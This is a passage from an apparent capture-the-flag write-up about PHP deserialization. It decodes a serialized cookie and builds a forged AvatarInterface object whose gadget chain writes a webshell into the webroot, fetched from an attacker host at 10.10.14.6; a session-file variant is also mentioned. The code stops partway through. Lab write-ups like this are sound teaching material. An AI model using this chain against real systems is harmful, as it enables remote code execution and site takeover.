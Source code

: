     
    
    oxdf@hacky$ echo Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30= | base64 -d
    O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}
    

That’s a PHP serialized object.

#### Generate Serialized Payload

I’m going to grab a lot of the PHP code from `utils.php` and use it to
generate a serialized object.

    
    
    <?php
    ...[snip]...
    $avatar_interface = new AvatarInterface();
    $avatar_interface->tmp = "";
    $avatar_interface->imgPath = "";
    $cookie = base64_encode(serialize($avatar_interface));
    echo $cookie;
    ?>
    

The `Avatar` and `AvatarInterface` classes are unchanged (not shown). I’ll
create a new `AvatarInterface` instance, and set the `$tmp` and `$imgPath`
parameters. I’ll then serialize and base64 encode the result, and write that
out.

So what are the `$tmp` and `$imgPath` values? When `unserialize` is called on
this cookie, it will call the `__wakeup` function of `AvatarInterface`,
creating a new `Avatar` with an `$imgPath` I give. Then it will call `save`
with `$tmp`. `save` uses `file_get_contents` to read the contents of a file at
the path `$tmp`, and writes that to `$imgPath`.

Since I want to write a webshell, I’ll want to write to the webroot. Something
like `./cmd.php` will work fine.

Getting a webshell is a bit tricker. There are a couple ways I could go about
it. The intended path for the box is to change my username to include a
webshell, and then reference my session file at
`//var/lib/php/sessions/sess_[session id]`.

But `file_get_contents` will also read over the network. So I’ll set it to a
URL such as `http://10.10.14.6/cmd.php`.

My final code is:

    
    
    <?php
    
    class Avatar {
        public $imgPath;
    
        public function __construct($imgPath) {
            $this->imgPath = $imgPath;
        }
    
        public function save($tmp) {
            $f = fopen($this->imgPath, "w");
            fwrite($f, file_get_contents($tmp));
            fclose($f);
        }
    }
    